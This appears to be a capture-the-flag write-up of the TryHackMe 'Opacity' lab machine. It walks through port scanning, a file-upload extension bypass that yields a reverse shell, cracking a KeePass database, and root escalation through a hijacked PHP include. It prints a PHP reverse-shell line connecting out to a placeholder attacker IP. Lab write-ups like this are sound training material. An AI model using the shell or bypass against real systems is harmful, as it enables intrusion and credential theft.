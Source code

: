 ```yaml
---
title: "Opacity TryHackMe"
collection: publications
permalink: /publication/Opacity
excerpt: 'This is a free machine from TryHackMe'
date: 2023-04-10
venue: '04-10'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/opacity-header.png)

**LINK :** [Opacity](https://tryhackme.com/room/opacity)

---

## Enumeration : 

* Let's scan the target :

```bash
# nmap -sC -sV -T4 10.10.131.31
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-10 12:22 EDT
Nmap scan report for 10.10.131.31
Host is up (0.095s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* The scan reveals 4 open ports, i think that the SMB port was just a rabbit hole.

* Browsing to the web page i found this login page, i tried some sql injection payloads but it didn't work.

![opacity1](/images/opacity1.png)

* Let's see if we can find any hidden directories :

```bash
# gobuster dir -u http://10.10.131.31 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/10 12:23:51 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.131.31/css/]
/cloud                (Status: 301) [Size: 312] [--> http://10.10.131.31/cloud/]
```

* I found this */cloud* directory, so after i saw a file upload function the first thing comes to my mind is reverse shell

![opacity2](/images/opacity2.png)

* Let's start a web server on our local machine:

![opacity3](/images/opacity3.png)

>shell.php : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

* So as you can see we can upload a file from an external URL, but unfortunately we can only upload images.

![opacity4](/images/opacity4.png)

* After i added .png to the URL, i was able to upload the file but i couldn't trigger the reverse shell.

![opacity5](/images/opacity5.png)

*  I spent a lot of time trying to bypass the file extension checks.

>https://book.hacktricks.xyz/pentesting-web/file-upload


* In order to bypass the restriction, you have to add #.png at the end of the URL.

![opacity6](/images/opacity6.png)

* Open the image and bingo you will receive the connection

![opacity7](/images/opacity7.png)

![opacity8](/images/opacity8.png)


## Horizontal Privilege Escalation :

* I found this interesting file in /opt

![opacity9](/images/opacity9.png)

> A KDBX file is a password database created by KeePass Password Safe.

* Let's start a web server and download the file to our local machine 

![opacity10](/images/opacity10.png)

![opacity11](/images/opacity11.png)

* We need a password to open this file, so let's crack the file using *keepass2john* and then *john*

![opacity12](/images/opacity12.png)

* Bingo we found the password.

![opacity13](/images/opacity13.png)

* Now let's open the file using *keepassxc*

```bash
# keepassxc dataset.kdbx
```
![opacity14](/images/opacity14.png)

* Enter the password.

![opacity15](/images/opacity15.png)

![opacity16](/images/opacity16.png)


* Let's login via ssh using this credentials and get the user flag.

![opacity17](/images/opacity17.png)

## Vertical Privilege Escalation :

* Let's see what processes are running on this machine using *pspy*

>https://github.com/DominicBreuker/pspy

* Open a web server on your local machine and then download the executable to the target machine

![opacity18](/images/opacity18.png)

![opacity19](/images/opacity19.png)

* After you run it, you will see a file called *script.php* is running

![opacity20](/images/opacity20.png)

* Let's read this file

![opacity21](/images/opacity21.png)

* The script requires a file called backup.inc.php this means it will call this file , then it backups all the files in /home/sysadmin/scripts to /var/backups/backup.zip


* As you can see the backup.inc.php is owned by root, so we can't modify it

![opacity22](/images/opacity22.png)

* You should notice that the sysadmin user have all the permissions to the *lib* folder

![opacity23](/images/opacity23.png)

* So the idea here is we're going to copy *backup.inc.php* to our home directory, now we can modify the file.

![opacity24](/images/opacity24.png)

* Let's add a php reverse shell


```bash
$sock=fsockopen("10.X.X.X",4444);exec("sh <&3 >&3 2>&3");
```

![opacity25](/images/opacity25.png)

* The next step is to remove the backup.inc.php from *script/lib/*, then move the modified file to *scripts/lib/*

![opacity26](/images/opacity26.png)

* Start a netcat listener and wait for the reverse shell.

![opacity27](/images/opacity27.png)

